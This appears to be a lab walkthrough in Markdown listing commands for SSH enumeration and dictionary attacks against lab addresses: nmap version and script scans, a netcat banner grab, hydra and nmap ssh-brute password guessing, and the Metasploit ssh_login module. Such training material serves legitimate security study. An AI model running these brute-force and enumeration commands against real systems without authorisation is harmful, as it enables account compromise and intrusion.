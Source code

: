 ## SSH

### Basics

```bash
john@kali> ip a
john@kali> ping 192.250.219.3
john@kali> nmap 192.250.219.3

# 1. What is the version of SSH server.
john@kali> nmap 192.250.219.3 -p 22 -sV

# 2. Fetch the banner using netcat and check the version of SSH server.
john@kali> nc 192.250.219.3 22

# 3. Fetch pre-login SSH banner.
john@kali> ssh root@192.250.219.3

# 4. How many “encryption_algorithms” are supported by the SSH server.
john@kali> nmap 192.250.219.3 -p 22 --script ssh2-enum-algos

# 5. What is the ssh-rsa host key being used by the SSH server.
john@kali> nmap 192.250.219.3 -p 22 --script ssh-hostkey --script-args ssh_hostkey=full

# 6. Which authentication method is being used by the SSH server for user “student”.
john@kali> nmap 192.250.219.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=student"

# 7. Which authentication method is being used by the SSH server for user “admin”.
john@kali> nmap 192.250.219.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=admin"

# 8. Fetch the flag from /home/student/FLAG by using nmap ssh-run script.
john@kali> ssh student@192.250.219.3
student@victim> cat FLAG
```

### Dictionary attack

```bash
john@kali> ip a
john@kali> ping 192.254.198.3
john@kali> nmap 192.254.198.3

# 1. Find the password of user “student” using hydra.
john@kali> hydra -l student -P /usr/share/wordlists/rockyou.txt.gz 192.254.198.3 ssh

# 2. Find the password of user “administrator” use appropriate Nmap scripts
#    with password dictionary: /usr/share/nmap/nselib/data/passwords.lst
john@kali> echo 'administator' > user.txt
john@kali> nmap 192.254.198.3 -p 22 --script ssh-brute --script-args passdb=/usr/share/nmap/nselib/data/passwords.lst,userdb=user.txt

# 3. Find the password of user “root” using ssh_login Metasploit module
#    with userpass dictionary: /usr/share/wordlists/metasploit/root_userpass.txt
john@kali> msfconsole
msf5> use scanner/ssh/ssh_login
msf5> set rhosts 192.254.198.3
msf5> set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt
msf5> set verbose true
msf5> set stop_on_success true
msf5> run

# 4. What is the message of the day? (Printed after the user logs in to the SSH server).
john@kali> ssh root@192.254.198.3
```